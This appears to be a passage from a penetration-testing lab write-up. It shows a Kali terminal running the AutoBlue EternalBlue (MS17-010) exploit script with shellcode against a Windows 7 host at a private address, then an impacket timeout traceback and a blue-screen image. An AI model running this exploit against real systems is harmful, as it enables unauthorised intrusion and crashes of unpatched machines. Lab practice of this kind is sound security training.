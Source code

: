 
**Another terminal tab:**
```
┌──(kali㉿kali)-[~/Desktop/pentest/blue/AutoBlue-MS17-010]
└─$ python eternalblue_exploit7.py 192.168.179.136 shellcode/sc_all.bin 
shellcode size: 2307
numGroomConn: 13
Target OS: Windows 7 Ultimate 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/nmb.py", line 984, in non_polling_read
    received = self._sock.recv(bytes_left)
socket.timeout: timed out

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/kali/Desktop/pentest/blue/AutoBlue-MS17-010/eternalblue_exploit7.py", line 563, in <module>
    exploit(TARGET, sc, numGroomConn)
  File "/home/kali/Desktop/pentest/blue/AutoBlue-MS17-010/eternalblue_exploit7.py", line 544, in exploit
    conn.disconnect_tree(tid)
  File "/usr/lib/python3/dist-packages/impacket/smb.py", line 2886, in disconnect_tree
    self.recvSMB()
  File "/usr/lib/python3/dist-packages/impacket/smb.py", line 2592, in recvSMB
    r = self._sess.recv_packet(self.__timeout)
  File "/usr/lib/python3/dist-packages/impacket/nmb.py", line 915, in recv_packet
    data = self.__read(timeout)
  File "/usr/lib/python3/dist-packages/impacket/nmb.py", line 1002, in __read
    data = self.read_function(4, timeout)
  File "/usr/lib/python3/dist-packages/impacket/nmb.py", line 986, in non_polling_read
    raise NetBIOSTimeout
impacket.nmb.NetBIOSTimeout: The NETBIOS connection with the remote host timed out.
```

![](/assets/img/blue/bsod.png)
